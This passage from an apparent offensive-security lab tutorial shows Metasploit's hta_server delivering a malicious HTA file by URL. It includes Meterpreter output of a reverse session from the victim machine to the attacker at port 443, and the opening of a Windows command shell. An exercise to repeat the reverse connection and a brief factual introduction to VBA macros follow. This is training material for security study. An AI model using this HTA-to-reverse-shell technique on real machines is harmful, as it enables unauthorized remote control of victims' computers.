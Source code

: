 ```


```

On the victim machine, once we visit the malicious HTA file that was provided as a URL by Metasploit, we should receive a reverse connection.

```
Terminal

           
user@machine$ [*] 10.10.201.254    hta_server - Delivering Payload
[*] Sending stage (175174 bytes) to 10.10.201.254
[*] Meterpreter session 1 opened (10.8.232.37:443 -> 10.10.201.254:61629) at 2021-11-16 06:15:46 -0600
msf6 exploit(windows/misc/hta_server) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : DESKTOP-1AU6NT4
OS              : Windows 10 (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x86/windows
meterpreter > shell
Process 4124 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\app>


```


Now, apply what we discussed to receive a reverse connection using the user simulation machine in the Practice Arena task.
*No answer needed*

### Visual Basic for Application - VBA 

Visual Basic for Application (VBA)

VBA stands for Visual Basic for Applications, a programming language by Microsoft implemented for Microsoft applications such as Microsoft Word, Excel, PowerPoint, etc. VBA programming allows automating tasks of nearly every keyboard and mouse interaction between a user and Microsoft Office applications. 

Macros are Microsoft Office applications that contain embedded code written in a programming language known as Visual Basic for Applications (VBA). It is used to create custom functions to speed up manual tasks by creating automated processes. One of VBA's features is accessing the Windows Application Programming Interface ([API](https://en.wikipedia.org/wiki/Windows_API)) and other low-level functionality. For more information about VBA, visit [here](https://en.wikipedia.org/wiki/Visual_Basic_for_Applications). 
